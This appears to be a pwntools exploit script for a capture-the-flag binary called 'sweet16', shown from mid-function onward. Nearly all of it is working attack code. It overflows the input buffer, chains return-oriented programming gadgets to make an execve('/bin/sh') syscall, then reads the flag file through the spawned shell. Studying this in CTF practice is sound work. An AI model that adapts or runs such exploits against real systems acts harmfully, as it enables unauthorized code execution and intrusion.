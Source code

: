 ```python
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(host, port)
    elif args.SSH:
        return ssh(user, host)
    else:
        return process([exe.path, "./sweet16"] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

ru  = lambda *x, **y: io.recvuntil(*x, **y)
rl  = lambda *x, **y: io.recvline(*x, **y)
rc  = lambda *x, **y: io.recv(*x, **y)
sla = lambda *x, **y: io.sendlineafter(*x, **y)
sa  = lambda *x, **y: io.sendafter(*x, **y)
sl  = lambda *x, **y: io.sendline(*x, **y)
sn  = lambda *x, **y: io.send(*x, **y)

# -- Exploit goes here --

offset = b"a"*42
io = start()
rc(timeout=1)

### Gadgets ###
ax_sp = 0x2a9 # xchg ax, di; sp, bp; pop bp;pop di; pop si; ret;
pop_bp_di = 0x2ac # pop bp; pop di; pop si; ret
syscall = 0x9f # mov sp, bx; dx = sp[6]; cx = sp[4]; bx = sp[2]; int 0x80
read_sys = 0x88
main = 0x0

### Chain 1 ###
chain1 = p16(read_sys) + p16(main) + p16(0) + p16(0x2d00) + p16(200) # write the final ROP chain on 0x2d00 with a length of 200 bytes
sl(offset+chain1)
sleep(0.2)
### Chain 3 ###
chain3 = p16(1337) + p16(1337) + p16(1337) + p16(syscall) + p16(1337) + p16(0x2d00) + p16(0)+p16(0) # Call excve("/bin/sh")
sl(b"/bin/sh\x00"+chain3)
sleep(0.2)
### Chain 2 ###
chain2 = p16(pop_bp_di) + p16(0x2d08) + p16(11) +p16(1337) + p16(ax_sp)

sl(offset+chain2)
sleep(0.2)
#sleep(1)
sl(b"cat flag.txt")
io.interactive()
```
